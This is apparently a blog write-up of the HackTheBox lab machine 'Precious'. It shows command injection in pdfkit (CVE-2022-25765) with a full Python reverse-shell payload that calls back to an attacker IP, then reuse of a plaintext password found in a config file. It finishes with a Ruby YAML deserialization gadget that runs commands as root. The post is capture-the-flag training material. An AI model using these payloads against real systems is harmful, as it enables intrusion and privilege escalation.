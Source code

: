 ```yaml
---
title: "Precious - HackTheBox"
description: "https://www.hackthebox.com/machines/precious"
summary: "Hack The Box Machine Precious"
date: 2023-09-28
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["Linux", "HackTheBox", "Easy", "CTF"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: 'right'  # or 'left'
# weight: 1
# aliases: ["/first"]
hidemeta: false
comments: true
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
cover:
    image: "images/cover.webp" # image path/url
    alt: "Precious Machine Logo" # alt text
    caption: "" # display caption under cover
    relative: true # when using page bundles set this to true
    hidden: false # only hide on current single page
    # hiddenInList: false
    # hiddenInSingle: false
# editPost:
#     URL: "https://github.com/"
#     Text: "Suggest Changes" # edit text
#     appendFilePath: true # to append file path to Edit link
---
```


------------------------

### About Precious
- Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. 
- It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. 
- After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.


### Scanning

Port scaning with nmap
- port 80 is open : redirect to http://precious.htb/

add this to `/etc/hosts`.

### Foothold

On this page we have **Convert Web Page to PDF** functionality.

<img width="474" alt="image" src="https://user-images.githubusercontent.com/79740895/231573264-a9246425-3e38-4e9d-8b5a-431684ceff6f.png">

after giving url pdf file is downloaded.

using exiftool on pdf we know that it is _Generated by pdfkit v0.8.6_.

This version is vulnerable to RCE.

Payload: 
```url
http://%20`{command}`
```

we can use this payload to get reverse shell:

```shell
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.40",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`
```

references: https://www.revshells.com/

we get shell as user ruby

<img width="216" alt="image" src="https://user-images.githubusercontent.com/79740895/231575127-06729034-9ced-4058-bc70-6b335f7044f9.png">

### Escalating Privileges

we can see two user in /home directory.

<img width="83" alt="image" src="https://user-images.githubusercontent.com/79740895/231575282-f6f90c02-7aa8-4d87-ba56-d603b07b02eb.png">

user flag is in directory of user henry but it is not accessible.

inside the directory of user ruby there is config file in .bundle in this file we can see password of user henry.

<img width="252" alt="image" src="https://user-images.githubusercontent.com/79740895/231575704-cd2668c0-8a7e-4542-91bb-669cb7bdaed1.png">

we can use this for ssh to henry.

user can run /opt/update_dependencies.rb as root with sudo.

<img width="344" alt="image" src="https://user-images.githubusercontent.com/79740895/231576872-90fbe14a-5858-4480-83a5-901366213b58.png">

this file is not writable. looking at code we see it use YAML.load, which is vulnerable to deserialization attack.

<img width="213" alt="image" src="https://user-images.githubusercontent.com/79740895/231577426-1faf86eb-003b-4c17-be99-0ca2b7c79a60.png">

we can write in dependencies.yml.

payload:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat /root/root.txt
         method_id: :resolve
```

reference: https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml

now we can run this with sudo and get the root flag.

`sudo /usr/bin/ruby /opt/update_dependencies.rb`


This will give the root flag.

Happy Hacking
